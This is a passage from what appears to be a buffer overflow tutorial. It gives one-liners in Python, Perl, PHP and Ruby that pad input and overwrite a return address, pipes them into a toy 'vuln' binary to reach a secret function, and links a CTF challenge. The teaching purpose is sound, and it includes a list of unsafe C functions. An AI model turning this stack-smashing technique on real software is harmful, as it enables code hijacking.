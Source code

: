 python -c 'print "a"*32 + "\x9d\x84\x04\x08"'

perl -e 'print "a"x32 . "\x9d\x84\x04\x08"'

php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";'
```

Note: we print \x9d because 9d was in hex

You can pipe this payload directly into the ```vuln``` binary.
```
ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

perl -e 'print "a"x32 . "\x9d\x84\x04\x08"' | ./vuln

php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";' | ./vuln
```

This is the output that I get:
```
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<rubbish 3 bytes>
Congratulations!
You have entered in the secret function!
Illegal instruction (core dumped)
```

Cool! we were able to overflow the buffer and modify the return address. The ```secretFunction``` got called. But this did foul up the stack as the program expected ```secretFunction``` to be present.

>What all C functions are vulnerable to Buffer Overflow Exploit?

1. gets
1. scanf
1. sprintf
1. strcpy

Whenever you are using buffers, be careful about their maximum length. Handle them appropriately.

>What next?

While managing [BackdoorCTF](https://backdoor.sdslabs.co/) I devised a simple challenge based on this vulnerability. [Here](https://backdoor.sdslabs.co/challenges/ECHO). See if you can solve it!
